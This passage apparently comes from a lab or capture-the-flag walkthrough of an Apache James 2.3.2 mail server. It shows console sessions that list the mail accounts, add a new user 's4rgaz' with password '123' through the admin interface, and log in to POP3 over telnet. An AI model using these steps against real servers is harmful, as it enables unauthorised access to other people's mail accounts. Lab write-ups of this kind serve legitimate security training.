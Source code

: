 We list the users by typing the **listusers** command.

```console
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

We create the user **s4rgaz**.

```console
adduser s4rgaz 123
User s4rgaz added
listusers
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: s4rgaz
user: mailadmin
quit
Bye
Connection closed by foreign host.
root@kali:~$
```

### Enumeration on service pop3

By logging in to pop3 service as user **s4rgaz**, we have successful access, so we can manage the users to be able to access to pop3 service.

```console
root@kali:~$ telnet 192.168.179.185 110
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user s4rgaz
+OK
pass 123
+OK Welcome s4rgaz
list
+OK 0 0
.
quit
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.
root@kali:~$
```
